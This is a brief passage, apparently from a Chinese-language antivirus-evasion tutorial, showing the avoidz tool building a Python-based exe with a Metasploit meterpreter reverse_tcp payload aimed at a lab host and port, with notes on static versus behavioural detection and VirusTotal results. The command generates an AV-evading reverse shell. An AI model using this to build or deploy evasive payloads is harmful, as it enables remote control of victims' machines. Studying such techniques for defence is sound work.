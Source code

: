 - 使用avoidz编译python生成exe(VT免杀率11/68)

使用python生成exe文件
```
./avoidz.rb -h 10.211.55.2 -p 3333 -m windows/meterpreter/reverse_tcp -f py
```

静态查杀没问题，行为检测依旧被拦

![17b6e2fc2b964143cd899345b87f2270](images/2020.03-bypass-02/21.png)

virustotal.com中11/68个报毒

![c330cebed2ef74608d3782826cfbd5e6](images/2020.03-bypass-02/22.png)

